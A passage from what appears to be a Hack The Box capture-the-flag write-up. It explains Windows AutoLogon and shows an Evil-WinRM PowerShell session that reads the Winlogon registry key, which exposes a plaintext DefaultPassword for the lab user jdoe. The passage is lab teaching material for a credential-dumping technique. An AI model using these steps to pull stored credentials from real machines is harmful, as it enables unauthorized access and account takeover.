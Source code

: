 That's why we were able to bruteforce valid fields and the description of each user.

# AutoLogon

AutoLogon is a way to make that Windows automatically logs in the computer without you manually having to enter the credentials. You can read more [here](https://www.hackingarticles.in/credential-dumping-windows-autologon-password/). This credentials are stored in registry and that's why we were able to saw it. WinPEAS do it automatically but we can also do it manually with a non-privileged user:

```powershell
*Evil-WinRM* PS C:\Snort\lib\snort_dynamicpreprocessor> cd HKLM:
*Evil-WinRM* PS HKLM:\> cd "Software\Microsoft\Windows NT\CurrentVersion"
*Evil-WinRM* PS HKLM:\Software\Microsoft\Windows NT\CurrentVersion> Get-Item Winlogon


    Hive: HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion


Name                           Property
----                           --------
Winlogon                       AutoRestartShell             : 1
                               Background                   : 0 0 0
                               CachedLogonsCount            : 10
                               DebugServerCommand           : no
                               DefaultDomainName            : analysis.htb.
                               DefaultUserName              : jdoe
                               DisableBackButton            : 1
                               EnableSIHostIntegration      : 1
                               ForceUnlockLogon             : 0
                               LegalNoticeCaption           :
                               LegalNoticeText              :
                               PasswordExpiryWarning        : 5
                               PowerdownAfterShutdown       : 0
                               PreCreateKnownFolders        : {A520A1A4-1780-4FF6-BD18-167343C5AF16}
                               ReportBootOk                 : 1
                               Shell                        : explorer.exe
                               ShellCritical                : 0
                               ShellInfrastructure          : sihost.exe
                               SiHostCritical               : 0
                               SiHostReadyTimeOut           : 0
                               SiHostRestartCountLimit      : 0
                               SiHostRestartTimeGap         : 0
                               Userinit                     : C:\Windows\system32\userinit.exe,
                               VMApplet                     : SystemPropertiesPerformance.exe /pagefile
                               WinStationsDisabled          : 0
                               ShellAppRuntime              : ShellAppRuntime.exe
                               scremoveoption               : 0
                               DisableCAD                   : 1
                               LastLogOffEndTimePerfCounter : 7173375283
                               ShutdownFlags                : 19
                               DisableLockWorkstation       : 0
                               AutoAdminLogon               : 1
                               DefaultPassword              : 7y4Z4^*y9Zzj
                               AutoLogonSID                 : S-1-5-21-916175351-3772503854-3498620144-1103
                               LastUsedUsername             : jdoe
```
